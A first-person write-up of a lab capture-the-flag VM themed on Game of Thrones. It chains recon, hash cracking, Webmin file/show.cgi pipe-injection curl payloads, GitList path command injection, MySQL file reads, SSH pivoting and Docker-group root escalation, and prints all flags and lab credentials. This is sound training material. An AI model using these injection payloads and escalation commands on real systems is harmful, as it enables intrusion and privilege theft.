# Game of Thrones CTF: 

*CTF Write-up*

> **Scope:** This write-up describes a lab CTF environment. I treated the target as an authorized vulnerable VM and documented the steps I performed to collect the seven kingdom flags, the three secret flags, and the final battle flag.

## Executive Summary

I attacked the Game of Thrones CTF VM as a chained network/web exploitation challenge. I started with reconnaissance, mapped the exposed services, followed clues hidden in web pages, DNS records, source comments, audio metadata, FTP files, databases, IMAP messages, and SSH-accessible checkpoints, and then used each recovered flag or credential to unlock the next kingdom. The path involved classic enumeration, custom HTTP headers, FTP access, DNS TXT records, authenticated Webmin command execution, PostgreSQL/MySQL interaction, port knocking, GitList command injection, SSH pivoting into the Dragonglass mine, and finally a Docker-group privilege escalation to reach the last stage.

## Flag Overview

| Stage | Flag |
| --- | --- |
| Dorne | fb8d98be1265dd88bac522e1b2182140 |
| Winterfell / The North | 639bae9ac6b3e1a84cebb7b403297b79 |
| Iron Islands | 5e93de3efa544e85dcd6311732d28f95 |
| Stormlands | 8fc42c6ddf9966db3b09e84365034357 |
| Mountain and the Vale | bb3aec0fdcdbc2974890f805c585d432 |
| The Reach | aee750c2009723355e2ac57564f9c3db |
| King's Landing | c8d46d341bea4fd5bff866a65ff8aea9 |
| Secret Flag - Savages | 8bf8854bebe108183caeb845c7676ae4 |
| Secret Flag - Braavos | 3f82c41a70a8b0cfec9052252d9fd721 |
| Secret Flag - Dragonglass Mine | a8db1d82db78ed452ba0882fb9554fc9 |
| Final Battle | 8e63dcd86ef9574181a9b6184ed3dde5 |

## 1. Reconnaissance and Initial Web Enumeration

I began by identifying the target and enumerating the exposed services. The HTTP service immediately established the Game of Thrones theme, while the scan output showed that the VM was intentionally exposing many services that would become part of the chained path. The important early services were FTP, SSH, DNS, HTTP, IMAP, PostgreSQL, Webmin, and a GitList instance.

```
nmap -sV -sC -p- 10.0.0.36

Not shown: 65526 closed tcp ports (reset)
PORT      STATE    SERVICE     VERSION
21/tcp    open     ftp         Pure-FTPd
22/tcp    open     ssh         Linksys WRT45G modified Dropbear sshd
53/tcp    open     domain      Bind-like DNS service
80/tcp    open     http        Apache httpd
143/tcp   filtered imap
1337/tcp open      http        nginx / GitList
3306/tcp filtered mysql
5432/tcp open      postgresql PostgreSQL
10000/tcp open     http        MiniServ 1.590 / Webmin
```

Before following any story clue, I also ran content discovery with feroxbuster. This is an important part of the chain because it explains how I reached the hidden web path. The tool found the normal static assets, robots.txt, sitemap.xml, and, most importantly, the recursive /h/ directory sequence. From /h to /h/i to /h/i/d to /h/i/d/d, the path was clearly spelling hidden, so continuing the pattern to /h/i/d/d/e/n/ was a logical continuation of the enumeration result rather than a guess.

```
feroxbuster -u http://10.0.0.36/ -w /usr/share/seclists/Discovery/Web-Content/big.txt
--extract-links -C 404 -d 4

200   http://10.0.0.36/js/game_of_thrones.js
200   http://10.0.0.36/css/game_of_thrones.css
200   http://10.0.0.36/music/game_of_thrones.wav
200   http://10.0.0.36/robots.txt
200   http://10.0.0.36/sitemap.xml
301   http://10.0.0.36/h      -> /h/
301   http://10.0.0.36/h/i    -> /h/i/
301   http://10.0.0.36/h/i/d -> /h/i/d/
301   http://10.0.0.36/h/i/d/d -> /h/i/d/d/

# The discovered sequence pointed me toward:
http://10.0.0.36/h/i/d/d/e/n/
```

After that, I checked robots.txt and the other discovered files. robots.txt defined a special user-agent, Three-eyed-raven, and also disclosed interesting paths such as /the-tree/, /secret-island/, and /direct-access-to-kings-landing/. I followed those paths, checked page source code, and treated every HTML comment, JavaScript file, CSS file, sitemap entry, and downloadable object as potentially meaningful.

```
curl http://10.0.0.36/robots.txt

User-agent: Three-eyed-raven
Allow: /the-tree/

User-agent: *
Disallow: /secret-island/
Disallow: /direct-access-to-kings-landing/

curl -H "User-Agent: Three-eyed-raven" http://10.0.0.36/the-tree/
```

After switching the user-agent and exploring the hidden pages, I recovered the path that led to Dorne and found the first useful credential pair for FTP. I also downloaded web assets, including audio files, and checked metadata. That gave me the Savages secret flag, which later became one of the three inputs for the final battle password.

```
strings game_of_thrones.wav | grep -i flag
exiftool game_of_thrones.mp3
# Savages secret flag: 8bf8854bebe108183caeb845c7676ae4
```



I started by opening the target in the browser and confirming that the visible landing page was the Game of Thrones CTF entry point. At this stage I did not assume the homepage itself was exploitable; I treated it as a themed clue surface and prepared to inspect the page source and hidden paths.



I inspected the HTML source of the landing page and looked for comments, linked files, image names, and references to hidden directories. This confirmed that the challenge was designed around story clues rather than a single obvious vulnerability, so I began following every reference as part of the attack chain.



I opened the JavaScript used by the page and reviewed the audio-player logic and inline comments. The important part was not the player itself, but the clue text embedded around it, which hinted that the main gates to King's Landing would not be the direct path and that repeated attacks could trigger blocking.



I ran a full service/version scan and saw several relevant services: FTP on 21, SSH on 22, DNS on 53, HTTP on 80, IMAP on 143, GitList/nginx on 1337, filtered MySQL on 3306, PostgreSQL on 5432, and Webmin on 10000. This gave me the map of the CTF: I would likely need to chain web, DNS, FTP, databases, mail, and later SSH access.



I followed one of the hidden web paths and reached a themed page with an image clue. I used this as confirmation that the hidden routes were intentional and that the challenge expected me to navigate through the kingdoms by reading the story hints carefully.



I viewed the source of that hidden page instead of only relying on what the browser displayed. The source comments contained the real information, including references to the next route and credentials, which showed that source-code review was mandatory for this CTF.



I checked the robots and hidden-route information and saw the special Three-eyed-raven user-agent plus disallowed locations such as secret-island and direct-access-to-kings-landing. This told me that normal browsing would miss content unless I changed how the HTTP request identified itself.



I repeated the request with the Three-eyed-raven user-agent and received the hidden HTML response. The page provided multiple story hints, including the need to identify as oberynmartell and the warning about Docker-based separation between kingdoms.

After that I deduced that the " http://10.0.0.36/h/i/d/d -> /h/i/d/d/" shown on FeroxBuster was clearly "/h/i/d/d/e/n", so I typed this on browser and abracadabra! I was right:


So in the hidden page's source-code there's information about the direct-access-to-kings-landing route for what I can remember, unfortunately in the process of registering I forgot to copy and paste the source code of this specific on a file.

But I almost certain, that the direct-access-to-king-landing was got by this way... 

Anyway, I opened the direct-access-to-kings-landing route and saw that it was a false or blocked direct route. The page reinforced that I could not simply jump to the final kingdom from the front door and would need to complete the intermediate chain.



I reached a protected hidden directory and triggered the browser authentication prompt. This was the first point where the credentials recovered from source comments became operational instead of just being clues.



I inspected the Game of Thrones audio file metadata with exiftool and found the Savages secret flag embedded in the tags. I kept this flag because the challenge text said to keep all 32-character strings, and it later became one of the final battle inputs.



I reviewed the source code for the Savages-related page and confirmed that the audio clue was intentional. The comment about savages playing music explained why checking the MP3 metadata was the right move instead of treating the media file as decoration.

## 2. Dorne, The Wall, and Winterfell

The web clues pointed me to the FTP service with the credentials oberynmartell / A_verySmallManCanCastAVeryLargeShad0w. I logged in, downloaded the available files, and used them as the next step in the route. This part of the CTF rewarded careful reading rather than brute forcing: each file or quote was a hint for the next kingdom.

```
ftp 10.0.0.36
# user: oberynmartell
# pass: A_verySmallManCanCastAVeryLargeShad0w
```

From the recovered material I moved to the Wall and then to Winterfell. The credentials jonsnow / Ha1lt0th3k1ng1nth3n0rth!!! allowed me to retrieve the protected Winterfell content. I first added the virtual host to /etc/hosts, then used wget to mirror the protected route so I could inspect the HTML, CSS, images, and comments locally.

```
echo "10.0.0.36 winterfell.7kingdoms.ctf" | sudo tee -a /etc/hosts

USER="jonsnow"
PASS="Ha1lt0th3k1ng1nth3n0rth!!!"
URL="http://winterfell.7kingdoms.ctf/------W1nt3rf3ll------/"
wget --user="$USER" --password="$PASS" -r -np -nH --cut-dirs=1 "$URL"
```

I also ran feroxbuster against the Winterfell virtual host. It only returned the index, CSS, favicon, and meme image, so that result helped narrow the path: there was no large hidden Winterfell directory tree to brute force. The useful information was in the downloaded source comment, which gave the Winterfell flag and told me that the next barrier should be handled through DNS rather than by attacking the web page directly.

```
feroxbuster -u http://winterfell.7kingdoms.ctf/ -w
/usr/share/seclists/Discovery/Web-Content/big.txt --extract-links -C 404

200   http://winterfell.7kingdoms.ctf/
200   http://winterfell.7kingdoms.ctf/winterfell.css
200   http://winterfell.7kingdoms.ctf/favicon.ico
200   http://winterfell.7kingdoms.ctf/meme4.jpg

Winterfell flag: 639bae9ac6b3e1a84cebb7b403297b79
```



I checked the CSS and found another thematic comment saying that music reaches where words cannot. That tied the page styling back to the audio metadata clue and validated that the Savages flag was not accidental noise.



I reviewed the audio-player script and its comments again, connecting the music clue, the hidden paths, and the King's Landing warning. This helped me avoid wasting time trying to brute force the main route too early.



I connected to FTP using oberynmartell and the password recovered from the web clues. After logging in, I listed the available files and recovered the Dorne content, which gave me the first kingdom flag and pushed me toward the Wall stage.



I opened the files obtained from FTP and found the next narrative clue about the Wall. The output showed that the Dorne stage was complete and that I had to use the downloaded material to continue rather than immediately switching services.



I inspected the recovered Wall files and saw that one of them was encrypted or protected. This changed the task from web enumeration to local file analysis and password recovery.



I examined the encrypted file and supporting material more closely to understand what kind of protection I was dealing with. The presence of hash-like data made me prepare a cracking workflow instead of guessing manually.



I organized the hash material and prepared hashcat inputs. This step was about turning the clue into a format that a cracking tool could actually use.



I launched hashcat against the recovered material. The terminal output shows the cracking process initializing and using the available compute backend, confirming that I was attacking the right type of hash or encrypted secret.



I checked hashcat's potfile and recovered the password for the protected Wall material. This was the pivot from 'I have an encrypted file' to 'I can decrypt the next clue.'



I verified the cracked result in hashcat and confirmed that the password was valid. I did this before moving on so I would not build the next step on an uncertain credential.



I used the recovered password to decrypt the wall file. The output confirmed that the file was successfully decrypted and that I could now read the next route in cleartext.



I checked the decrypted file type and confirmed that it was no longer encrypted. This was a sanity check to make sure the decryption step actually changed the artifact into readable content.



I read the decrypted Wall message and recovered the Winterfell route together with the jonsnow credentials. This completed the Wall stage and gave me the exact URL and password needed for the next protected area.



I added the Winterfell hostname to /etc/hosts so the browser and command-line tools could resolve winterfell.7kingdoms.ctf to the target IP. Without this local DNS mapping, the virtual-host route would not work correctly.

## 3. Iron Islands Through DNS TXT Records

The Winterfell clues made it clear that I needed to query DNS directly. I checked TXT records under 7kingdoms.ctf and then queried the Timef0rconqu3rs subdomain. That returned the Iron Islands flag and gave me the next target: Stormlands on Webmin port 10000, together with the credentials aryastark / N3ddl3_1s_a_g00d_sword#!.

```
dig @10.0.0.36 TXT 7kingdoms.ctf
dig @10.0.0.36 TXT Timef0rconqu3rs.7kingdoms.ctf

Iron Islands flag: 5e93de3efa544e85dcd6311732d28f95
Stormlands credentials: aryastark / N3ddl3_1s_a_g00d_sword#!
```

## 4. Stormlands - Webmin Authenticated Command Execution

After logging into Webmin as aryastark, I focused on the classic /file/show.cgi behavior. The public exploit pattern uses a pipe character in the request path so that the backend treats the pathname as a command pipe. My first attempts looked like failures because curl either normalized the request or discarded the response body after the server produced broken Content-Length behavior.

```
curl --trace-ascii - -s -o /dev/null -b webmin_cookies.txt --path-as-is \
"http://10.0.0.36:10000/file/show.cgi/bin/abc|id|"
```

The breakthrough was forcing the exact HTTP request target. When sleep 5 delayed the response, I knew command execution was working. The final read used --ignore-content-length so curl would not throw away the command output.

```
time curl -i -s -b webmin_cookies.txt \
--request-target "/file/show.cgi/bin/abcde|sleep 5|" \
http://10.0.0.36:10000

curl --ignore-content-length -b webmin_cookies.txt \
--request-target "/file/show.cgi/dev/null|cat /home/aryastark/flag.txt|" \
http://10.0.0.36:10000

Stormlands flag: 8fc42c6ddf9966db3b09e84365034357
```



I edited the hosts file directly and inserted the Winterfell mapping. This made the CTF's name-based routing usable from my machine and allowed the next web requests to reach the correct virtual host.



I opened the Winterfell page in the browser and confirmed that the credentials and hostname mapping worked. The page visually showed that I had reached the correct kingdom.



I checked the Winterfell page source and found another clue telling me not to enter the Iron Islands directly. The source indicated that I had to ask the right question, which pointed me toward DNS TXT records rather than normal web browsing.



I used wget with the jonsnow credentials to recursively download the Winterfell content. This let me inspect all local files offline, search through source code, and avoid missing hidden assets.



I ran feroxbuster against the Winterfell virtual host to look for extra paths. This confirmed the available surface and gave me confidence that the key progress point was in the downloaded/source material rather than an undiscovered directory.



I queried DNS TXT records for 7kingdoms.ctf and received Pyke/Iron Islands-themed text. The response explicitly said brute force was not the solution and that I had to ask the right question.



I reviewed the downloaded Winterfell files locally and kept the relevant images and source artifacts together. This helped me correlate the visual clues with the source-code comments and DNS hints.



I asked DNS for the more specific Timef0rconqu3rs record and received the Iron Islands flag, plus the next destination: Stormlands on Webmin port 10000 with aryastark credentials.



I loaded the Winterfell page that displayed the visual confirmation of the North stage. The screenshot shows the thematic proof that the kingdom had been recovered.



I opened the Winterfell HTML source and read the comment containing the Winterfell flag. The same comment also told me that I had to do something before travelling to the Iron Islands, which matched the DNS route I followed.

## 5. Mountain and the Vale and The Reach

The Stormlands output gave me the PostgreSQL credentials for the Mountain and the Vale kingdom: robinarryn / cr0wn_f0r_a_King-_ against the mountainandthevale database. I connected from the command line, listed the database objects, and recovered the Mountain and the Vale flag. This database also contained the Braavos clues, but I separated Braavos later in the report because that secret flag becomes necessary for the final archive password.

```
psql -h 10.0.0.36 -U robinarryn -d mountainandthevale
\dt
\dv
SELECT * FROM flag;

Mountain and the Vale flag: bb3aec0fdcdbc2974890f805c585d432
```

The Mountain and the Vale flag output also gave me the next main-kingdom route: the Reach. It supplied the IMAP identity olennatyrell@7kingdoms.ctf / H1gh.Gard3n.powah, but the hint said I first had to open the gates. That matched the earlier Three-eyed-raven clue containing the knock sequence 3487 64535 12345.

I used the port-knocking sequence, confirmed that IMAP became reachable, then connected manually with nc. After logging in, selecting INBOX, and fetching the message body, I recovered the Reach flag and the TywinLannister credentials for the Casterly Rock GitList service.

```
knock 10.0.0.36 3487 64535 12345
nc 10.0.0.36 143
a1 LOGIN "olennatyrell@7kingdoms.ctf" "H1gh.Gard3n.powah"
a2 LIST "" "*"
a3 SELECT INBOX
a4 FETCH 1:* BODY[]

The Reach flag: aee750c2009723355e2ac57564f9c3db
Casterly Rock credentials: TywinLannister / LannisterN3verDie!
```



I revisited the MP3 metadata and confirmed the Savages secret flag in the audio tags. I kept it separate from the normal kingdom flags because it was a secret flag and would matter in the final password construction.



I continued checking DNS output and confirmed that the domain was deliberately exposing story information through TXT records. This reinforced that DNS was a primary challenge mechanism, not just infrastructure.



I captured the specific DNS answer that awarded the Iron Islands flag and gave the Stormlands Webmin URL and credentials. This marked the transition from DNS enumeration to authenticated Webmin exploitation.



I opened the Stormlands Webmin login page and entered the aryastark credentials from the DNS TXT record. This confirmed that the Iron Islands clue was actionable and not just narrative text.



After authenticating, I reached the Webmin interface and verified that I had a valid session. From there I started focusing on Webmin 1.590 behavior and the file/show.cgi endpoint.



I inspected exploit references and request patterns for Webmin's file/show.cgi command-execution issue. The key idea was to inject a pipe in the requested file path so the CGI backend would treat the path as a command pipe.



I encountered Webmin's browser/security warning behavior while testing the interface. I treated it as an interface obstacle, not as proof that exploitation was impossible, and continued testing the raw request path.



I tested command execution with curl and used request-target handling to preserve the pipe characters. Timing tests with sleep confirmed that execution was happening even when the response body was hard to see because of broken headers.



I finally read /home/aryastark/flag.txt through the Webmin command-execution path. The response showed the Stormlands flag and credentials for PostgreSQL access to the Mountain and the Vale database.



I connected to PostgreSQL with the robinarryn credentials recovered from Stormlands. This moved the chain from Webmin exploitation into database enumeration.



Inside PostgreSQL, I listed the schemas and tables and identified the relevant flag table. This step shows the normal database-enumeration workflow after gaining valid credentials.



I selected from the flag table and recovered the Mountain and the Vale flag. The same result also pointed me toward the Reach and supplied the olennatyrell IMAP credentials, with a warning that the gates had to be opened first.



I reviewed the database output and the next-step hint in the browser/terminal context. The important takeaway was that the next service would not be immediately available until the correct knock sequence opened it.



I confirmed the Reach access hint and prepared to open the gate before trying IMAP. This prevented me from treating the closed or filtered IMAP behavior as a wrong password problem.



I executed the port-knocking sequence against the target. The terminal shows each knock being sent, which was required before IMAP on port 143 would become reachable.



After knocking, I rescanned or checked the service state and confirmed that IMAP was now open. This proved that the knock sequence had changed the firewall behavior.



I connected to IMAP, logged in as olennatyrell@7kingdoms.ctf, selected the inbox, and fetched the message body. The email contained the Reach flag and the TywinLannister credentials for the Rock on port 1337.

## 6. Casterly Rock and King's Landing

The Reach message pushed me toward Casterly Rock, exposed through GitList on port 1337. I found that the path parameter could be abused for command injection. First I used it to read the checkpoint file, then I used it to interact with MySQL and reach the King's Landing data.

```
http://10.0.0.36:1337/casterly-rock/blob/master/"";`cat /home/tyrionlannister/checkpoint.txt`;"
```

The checkpoint gave me MySQL credentials for cerseilannister. The direct query path was awkward, so I used SQL execution through the injection path to create a temporary table, load the flag file into it, and select it back. That produced the King's Landing flag and credentials for the next SSH stage.

```
mysql -h 10.0.0.36 -u cerseilannister -p_g0dsHaveNoMercy_ -D kingslanding \
-e "CREATE TABLE IF NOT EXISTS temp_flag (content TEXT);"

mysql -h 10.0.0.36 -u cerseilannister -p_g0dsHaveNoMercy_ -D kingslanding \
-e "LOAD DATA INFILE '/etc/mysql/flag' INTO TABLE temp_flag;"

mysql -h 10.0.0.36 -u cerseilannister -p_g0dsHaveNoMercy_ -D kingslanding \
-e "SELECT * FROM temp_flag;"

King's Landing flag: c8d46d341bea4fd5bff866a65ff8aea9
SSH credentials: daenerystargaryen / .Dracarys4thewin.
```



I opened the Casterly Rock GitList service and received a basic-auth prompt. I used the TywinLannister credentials from the Reach email to access the repository.



After authenticating, I reached the GitList repository view and saw the available project content. This gave me a new web application surface to inspect for source-code or path-based weaknesses.



I opened the repository content and found a README-style clue telling me where to look next. The clue pushed me toward tyrionlannister's checkpoint file rather than normal repository browsing.



I decoded the clue and turned it into the path /home/tyrionlannister/checkpoint.txt. This gave me a concrete target for the next GitList path/command-injection attempt.



I abused the GitList path handling to execute cat against tyrionlannister's checkpoint file. The error output still included the command result, giving me King's Landing database credentials and confirming command injection through the path.



I used the GitList injection path to run MySQL commands against the kingslanding database. This was necessary because direct database access was not the cleanest route from my machine.



I observed MySQL/GitList error feedback while refining the query. The feedback helped me adjust the payload until I could reliably load and read the intended data.

## 7. Dragonglass Mine and the White Walkers

Using the daenerystargaryen SSH credentials, I logged into the system and read the checkpoint. It pointed me toward the Dragonglass mine at 172.25.0.2 and gave me the context needed to continue. I used the recovered password to reach the mine as root and collected the Dragonglass secret flag.

```
ssh daenerystargaryen@10.0.0.36
cat checkpoint.txt
cat digger.txt
ssh root@172.25.0.2
# password: Dr4g0nGl4ss!

Dragonglass secret flag: a8db1d82db78ed452ba0882fb9554fc9
```

The final host context exposed branstark. I checked my privileges and noticed that branstark belonged to the docker group. That was the privilege escalation path. Because Docker access can allow a user to start a container as root and mount the host filesystem, I used an existing local image, mounted / into /host, and chrooted into it.

```
id
docker ps
docker images
docker run --rm -it -v /:/host basecamp-winterfell chroot /host /bin/bash
```

At that point I was effectively root on the host filesystem. This gave me access to the final battle files and the pseudo-code hint for deriving the archive password.



I used a Morse code translator to decode a clue into /ETC/MYSQL/FLAG. That told me where the King's Landing flag was stored and why I needed to load that file through MySQL.



I loaded the flag file into a temporary MySQL table through the GitList command-injection route and selected it back. The output revealed the King's Landing flag and the daenerystargaryen SSH credentials.



I logged in over SSH as daenerystargaryen, read checkpoint.txt and digger.txt, and discovered the Dragonglass mine at 172.25.0.2. The screenshot also shows that the internal host was reachable from that account.



I SSHed into the Dragonglass mine as root using the recovered password and read flag.txt. This produced the Dragonglass secret flag and gave me the branstark SSH credentials for the final host stage.



I connected as branstark and saw the SSH warning about non-post-quantum key exchange, then obtained a normal shell. This was the beginning of the final privilege-escalation phase.



I enumerated the local filesystem and checked sudo/privilege paths. The output showed that I had to look beyond simple sudo rights and focus on group-based escalation.



I checked my identity and Docker access and saw that branstark belonged to the docker group. I listed the running containers and available images, confirming that Docker could be used as the escalation mechanism.



I started a container with the host filesystem mounted at /host and then chrooted into it. This gave me an effective root shell on the host filesystem because Docker access allowed me to mount / and enter it as root.

## 8. Braavos - Many-Faced God Secret Flag

Before the final battle, I documented the Braavos route properly because it was not an optional screenshot at the end: it was one of the three secret paths required to build the final archive password. The route came from the Mountain and the Vale PostgreSQL database. When I listed the tables there, I found aryas_kill_list and braavos_book in addition to the normal kingdom flag material.

I queried braavos_book and found an encoded message. After decoding it, the text told me that the Many-Faced God wanted me to change my face, identify as one person from Arya's kill list, choose the identity using the book's lost page number, connect to the braavos database, and use ValarMorghulis as the password. I then checked the book/list relationship, identified the missing page number, and selected the corresponding kill-list identity: TheRedWomanMelisandre.

```
-- inside the mountainandthevale PostgreSQL database
\dt
SELECT * FROM braavos_book;
SELECT * FROM aryas_kill_list;

-- decoded braavos_book clue
THE MANY FACED GOD WANTS YOU TO CHANGE YOUR FACE.
HE WANTS YOU TO IDENTIFY AS ONE OF YOUR KILL LIST.
SELECT IT BASED ON THIS BOOKS LOST PAGE NUMBER.
THE DATABASE TO CONNECT WILL BE BRAAVOS AND YOUR PASSWORD WILL BE VALARMORGHULIS.
```

With that reasoning, the psql command was no longer a blind guess. I used the Braavos database name, the TheRedWomanMelisandre user, and the ValarMorghulis password. Once inside, I listed the available tables and selected from temple_of_the_faceless_men to recover the City of Braavos secret flag.

```
psql -h 10.0.0.36 -U TheRedWomanMelisandre -d braavos
# Password: ValarMorghulis
\dt
SELECT * FROM temple_of_the_faceless_men;

Braavos secret flag: 3f82c41a70a8b0cfec9052252d9fd721
```



I connected to the Braavos PostgreSQL database with the recovered ValarMorghulis password. This was not a random database login: it came from the Mountain and the Vale clues, the decoded braavos_book message, and the Arya kill-list identity selection.



I queried the Braavos table and confirmed the secret flag for the City of Braavos. I preserved it separately because the final battle later required the Braavos secret flag as one of the three password components.

## 9. Final Battle Password and Final Flag

With Braavos documented before this point, the final hint made sense. To defeat the White Walkers I needed help from the Savages, the Many-Faced God skill learned at Braavos, and the Dragonglass weapons. That meant the archive password had to be built from the three secret flags, not from the ordinary kingdom flags.

```
useful-pseudo-code-on-invented-language = concat(
substr(secret_flag1, strlen(secret_flag1) - 10),
substr(secret_flag2, strlen(secret_flag2) - 10),
substr(secret_flag3, strlen(secret_flag3) - 10)
)
```

I took the last ten characters of each secret flag and concatenated them in the order implied by the hint: Savages, Braavos, then Dragonglass.

| Secret source | Flag | Last 10 characters |
| --- | --- | --- |
| Savages | 8bf8854bebe108183caeb845c7676ae4 | 45c7676ae4 |
| Braavos | 3f82c41a70a8b0cfec9052252d9fd721 | 252d9fd721 |
| Dragonglass | a8db1d82db78ed452ba0882fb9554fc9 | 2fb9554fc9 |

```
Final battle archive password:
45c7676ae4252d9fd7212fb9554fc9
```

After deriving the password, I did not extract the archive directly on the target. I first copied final_battle.zip to my own PC using scp, then extracted it locally with 7z and read the final flag. The victory message confirmed that the Game of Thrones CTF had been completed.

```
# From the root context on the target I staged the archive in a readable location.
cp /root/final_battle /tmp/final_battle.zip
chmod 644 /tmp/final_battle.zip

# From my PC I copied it locally before extracting it.
scp branstark@10.0.0.36:/tmp/final_battle.zip ./final_battle.zip

7z x final_battle.zip -ofinal_extracted -p45c7676ae4252d9fd7212fb9554fc9 -y
cat final_extracted/flag.txt

Final Battle flag: 8e63dcd86ef9574181a9b6184ed3dde5
```



From the root context I reached the final-battle material and read the pseudo-code hint. This was the point where the earlier secret flags became necessary, because the archive password was not based on the seven ordinary kingdom flags.



After copying the archive to my own PC with scp, I extracted it locally using the derived password and read flag.txt. The output confirmed that I had defeated the White Walkers and completed the Game of Thrones CTF, including the final battle flag.

## Final Notes

The most important lesson from this CTF was that the path was not just about exploiting services. It depended on reading clues carefully, preserving every flag, and understanding how each stage pointed to the next. I also had to debug tooling behavior, especially with Webmin and curl, instead of assuming the exploit had failed. The final password mistake was a good example: the pseudo-code only made sense once I treated Savages, Braavos, and Dragonglass as the three secret flags, with Braavos recovered before the final extraction rather than after it.
